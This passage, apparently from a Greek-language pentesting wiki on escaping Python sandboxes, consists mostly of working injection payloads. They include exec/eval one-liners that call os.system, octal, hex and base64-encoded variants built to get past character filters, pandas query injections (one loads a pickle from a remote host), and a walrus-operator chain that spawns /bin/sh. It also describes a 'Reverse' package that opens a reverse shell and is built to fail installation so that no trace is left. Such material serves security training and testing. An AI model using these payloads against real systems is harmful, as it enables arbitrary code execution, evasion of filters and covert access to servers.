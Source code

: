 {% hint style="info" %}
Αυτό το πακέτο ονομάζεται `Reverse`. Ωστόσο, έχει κατασκευαστεί ειδικά ώστε όταν βγείτε από το reverse shell η υπόλοιπη εγκατάσταση να αποτύχει, έτσι ώστε **να μην αφήσετε κανένα επιπλέον πακέτο python εγκατεστημένο στον διακομιστή** όταν φύγετε.
{% endhint %}

## Eval-ing python code

{% hint style="warning" %}
Σημειώστε ότι το exec επιτρέπει πολυγραμμικά strings και ";", αλλά το eval δεν το επιτρέπει (ελέγξτε τον τελεστή walrus)
{% endhint %}

Εάν ορισμένοι χαρακτήρες είναι απαγορευμένοι μπορείτε να χρησιμοποιήσετε την **hex/octal/B64** αναπαράσταση για να **bypass** τον περιορισμό:
```python
exec("print('RCE'); __import__('os').system('ls')") #Using ";"
exec("print('RCE')\n__import__('os').system('ls')") #Using "\n"
eval("__import__('os').system('ls')") #Eval doesn't allow ";"
eval(compile('print("hello world"); print("heyy")', '<stdin>', 'exec')) #This way eval accept ";"
__import__('timeit').timeit("__import__('os').system('ls')",number=1)
#One liners that allow new lines and tabs
eval(compile('def myFunc():\n\ta="hello word"\n\tprint(a)\nmyFunc()', '<stdin>', 'exec'))
exec(compile('def myFunc():\n\ta="hello word"\n\tprint(a)\nmyFunc()', '<stdin>', 'exec'))
```

```python
#Octal
exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\154\163\47\51")
#Hex
exec("\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x6c\x73\x27\x29")
#Base64
exec('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='.decode("base64")) #Only python2
exec(__import__('base64').b64decode('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='))
```
### Άλλες βιβλιοθήκες που επιτρέπουν την εκτέλεση κώδικα python
```python
#Pandas
import pandas as pd
df = pd.read_csv("currency-rates.csv")
df.query('@__builtins__.__import__("os").system("ls")')
df.query("@pd.io.common.os.popen('ls').read()")
df.query("@pd.read_pickle('http://0.0.0.0:6334/output.exploit')")

# The previous options work but others you might try give the error:
# Only named functions are supported
# Like:
df.query("@pd.annotations.__class__.__init__.__globals__['__builtins__']['eval']('print(1)')")
```
## Τελεστές και σύντομα κόλπα
```python
# walrus operator allows generating variable inside a list
## everything will be executed in order
## From https://ur4ndom.dev/posts/2020-06-29-0ctf-quals-pyaucalc/
[a:=21,a*2]
[y:=().__class__.__base__.__subclasses__()[84]().load_module('builtins'),y.__import__('signal').alarm(0), y.exec("import\x20os,sys\nclass\x20X:\n\tdef\x20__del__(self):os.system('/bin/sh')\n\nsys.modules['pwnd']=X()\nsys.exit()", {"__builtins__":y.__dict__})]
## This is very useful for code injected inside "eval" as it doesn't support multiple lines or ";"
```